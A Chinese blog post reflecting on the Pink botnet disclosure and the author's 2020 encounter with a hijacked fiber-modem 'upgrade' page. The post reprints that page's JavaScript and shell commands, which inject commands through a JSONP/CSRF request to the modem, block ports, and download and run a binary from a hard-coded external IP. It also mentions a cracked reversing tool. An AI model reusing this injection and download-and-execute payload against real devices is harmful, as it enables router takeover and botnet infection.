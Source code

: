 ```yaml
---
title: 从最近披露的Pink僵尸网络想到的
description: "昨天看到的文章《一个藏在我们身边的巨型僵尸网络 Pink》让我想起了20年初的一起光猫升级事件，以及我对这次事件的一些想法"
summary: "昨天看到的文章《一个藏在我们身边的巨型僵尸网络 Pink》让我想起了20年初的一起光猫升级事件，以及我对这次事件的一些想法"
tags:
- event
categories:
- event
date: 2021-10-27 13:00:45+0800
lightgallery: true
---
```


昨天上课的时候无聊刷[V2EX](https://www.v2ex.com/t/810633)，读到 360 Netlab 发布的文章[《一个藏在我们身边的巨型僵尸网络 Pink》](https://blog.netlab.360.com/pinkbot/)，披露了2019年底到2020年春节前后的一个名为"**Pink**"的巨型僵尸网络从被发现到攻防博弈过程的一些细节

文中的攻防过程令我很是激动，因为我想起了在2020年初的一件事

## 光猫升级事件

2020年1月初，访问某些http协议(80端口)的网站，会被劫持到一个联通光猫升级页面

![百度贴吧被劫持到升级页面](tieba-web-update.png "百度贴吧被劫持到升级页面")

{{< admonition info >}}
对这个页面的源码在gist上进行了[备份](https://gist.github.com/zu1k/7120d1f71797153eb8c867bb09323eae)，感兴趣的同学可以看一下 [9923](https://gist.github.com/zu1k/7120d1f71797153eb8c867bb09323eae#L9923) 行
{{< /admonition >}}

### 官方后门

通过查看请求和页面源码可以发现这个页面通过想"**192.168.1.1**"的某个接口进行**jsonp**请求来执行命令

```javascript
function ajax(){
    //document.getElementById("tip").innerHTML="请重启光猫，并保持页面不关闭，重启后请立即连接光猫WIFI或者网口，等待五分钟后检查网络是否正常";
    $.ajax(
        {
            dataType: 'jsonp',
            data: "",
            jsonp: 'callback',
            url: 'http://192.168.1.1/createNewFolder.json?enlpassword=1234567890abcdefx1234567890abcdefxx1234567890abcdefxxx1eee;iptables -I OUTPUT -p tcp --dport 443 -j DROP;iptables -I OUTPUT -p udp --dport 123 -j DROP;if [ ! -f /tmp/sdsjw ] %26%26 wget http://182.43.249.225:19735/sdsjw -P /tmp;then chmod 777 /tmp/sdsjw;/tmp/sdsjw;fi; /jsonp?',
            success: function (data) {
                console.log(JSON.stringify(data));   // 这里是返回数据
                //document.getElementById("tip").innerHTML="设备正在升级，请等待五分钟后检查网络是否正常";
            },
            error:function(XLMHttpResponse,textStatus,errorThrown){
                if(XLMHttpResponse.status == 200){
                    //document.getElementById("tip").innerHTML="设备正在升级，请等待五分钟后检查网络是否正常";
                }
            },
            complete:function(XLMHttpResponse){
                if(XLMHttpResponse.status == 200){
                    //document.getElementById("tip").innerHTML="设备正在升级，请等待五分钟后检查网络是否正常";
                }
            }
        }
    );
}
```

很明显，这是一个后门，或者是一个漏洞，我更相信这是一个官方后门

根据它的写法我稍微测试了一下，通过jsonp跨域，进行CSRF，的确可以执行任意命令

![测试这个后门](test-backdoor.png "测试后门")

如果被利用了，岂不是？？？又有谁知道到底是不是已经被利用了呢，反正我不知道

{{< admonition info >}}
我很早之前就把光猫设置为桥接模式了，利用自己的路由器拨号，不受该后门影响

局域网也改为另外一个网段了，“192.168.1.1” 根本没有机器
{{< /admonition >}}

再回过头来看升级页面执行的shell命令:

```bash
iptables -I OUTPUT -p tcp --dport 443 -j DROP;
iptables -I OUTPUT -p udp --dport 123 -j DROP;
if [ ! -f /tmp/sdsjw ] && wget http://182.43.249.225:19735/sdsjw -P /tmp; then
    chmod 777 /tmp/sdsjw;
    /tmp/sdsjw;
fi;
/jsonp?
```

当初看这段命令的时候就觉得非常奇怪

为什么上来第一句就要阻断到所有目标443端口的tcp连接？当初的一个想法是防止用户用https协议，这样用户只能使用80端口的http明文协议，可以进行监听或者劫持等操作。这样也不合理啊，HSTS也不是吃干饭的，再说联通如果通过更新屏蔽掉到443端口的所有请求，不怕用户集体反馈和投诉吗？反正当初是没想通这个谜之操作

再看第二句，也莫名其妙，udp 123端口是NTP服务，找你惹你了，犯不着全部屏蔽掉吧。还是想不明白

往后的命令就比较常规了，下载了一个二进制程序，权限修改为`777`，然后直接执行

### 怀疑被攻击

通过对上面升级执行的命令进行分析，我觉得这些操作很不符合常理，将这些已知信息在小群里交流之后，怀疑可能是一起攻击事件，通过劫持用户的http访问，利用光猫的后门(可能是漏洞，虽然我不信)植入恶意程序

遂决定对`sdsjw`程序进行逆向分析，分析的枯燥过程这里省略了，最后结果就是没有发现什么异常的点，到这里对这个事件的分析便不了了之了（当初的二进制程序我找不到了，现在也下载不到了）

{{< admonition info >}}
通过逆向mips版的升级程序，我得出了两个结论：

- JEB的MIPS逆向体验很不错
- 毛子的JEB破解版真好用
{{< /admonition >}}

### 联通工作人员上门升级

2020年5月10号下午，联通工作人员上门进行光猫升级。具体升级方法就是把一块板子通过光猫侧面的口插到主板上，然后通过手机上的app进行固件刷写

在交流的过程中，他透漏光猫大批量被控，有对外攻击流量，接上面要求需要对所有光猫进行升级。我家的光猫在线升级失败，只能到户手动完成。我看了一下他需要上门的名单，看样子我们这个区域关闭了在线管理接口的用户还不少啊哈哈哈

![联通工作人员上门升级](update.jpg "联通工作人员上门升级")

## 我在第一层，人家在第5层

虽然这个事已经过去一年多了，但现在想起来还是有那么一些感触，在运营商与黑客的一轮又一轮攻防博弈中，我有幸记录下其中某个小小的过程。在信息还未对外揭露之前，我无法理解那些莫名其妙的升级指令，甚至怀疑那是一起攻击事件，利用自己微不足道的知识尝试分析却不得结果。当保密期过去之时，我们得以看到整个事件的原貌，不禁感叹，我还是太年轻了啊（好像听到了“长者”的话）

### 关于看待事情

所谓“管中窥豹，略见一斑”，从这件事我学到的第一点便是，要有大局观，要广泛的收集信息，看待某件事时要把时间线放长，这样才能去尽力触及事情的真相

### 关于现代网络攻击

我学到的第二点是关于现代网络攻击。我觉得我对网络攻击的印象还停留在早年的那些简单的漏洞利用，虽然近几年通过网络也吃了不少现代网络攻击事件的瓜，但是并未意识到真正的网络攻击就潜伏在你我身边

通过本次事件我们可以清晰的看出，现代的网络攻击使用的技术更加先进，对隐匿性的要求也更高，如果不是有广泛的监控难以发现。在遇到厂商的狙杀时攻击者能够在第一时间绕过和阻拦，甚至能够在多轮对抗中取得优势将厂商直接阻拦在门外，夺取绝对的控制权，逼迫厂商只能线下进行上门修复

简单列几句文中的原话：

- “至对光猫固件做了多处改动后，还能确保光猫能够正常使用”
- “在与相关厂商的屡次攻防博弈中，PinkBot 的运营者都占据了明显的对抗优势”
- “PinkBot 在整个过程中表现出了极强的针对性和专业性，各方面能力都很均衡，甚至有些可怕”
- “攻击者还使用了ecdsa对配置信息进行了签名”

我觉得不可思议的是这一句：

- “我们一直阶段性的对公网上的 Pink 节点进行持续监测，通过对 2021/10/20日的日志分析，我们仍然可以看到 103024 个 IP 处于日活状态。这表明，当前的 pink 的感染规模仍然在 10w 量级左右，涉及多家设备厂商，按照每个IP对应一个三口之家来计算，受影响人群大概 30w 人左右”

被发现近2年，竟然还没有清除干净，这存活能力得有多强，难以想象

结论：攻击者能力很强，未来遭遇的攻击会更加专业和可怕

### 关于个人安全

关于个人安全，其实我没有发言权，毕竟我也曾踩过别人的水坑

但是我还是要说一句，就是保持差异化，默认的配置只会给攻击者创造便利

再加一句，不要把自己的安全完全托付在别人手中

## 参考链接

- [运营商收回公网 IP 的原因之一](https://www.v2ex.com/t/810633)
- [一个藏在我们身边的巨型僵尸网络 Pink](https://blog.netlab.360.com/pinkbot/)
- [用户端设备ONU被肉鸡攻击实例浅析](https://www.freebuf.com/articles/endpoint/243189.html)
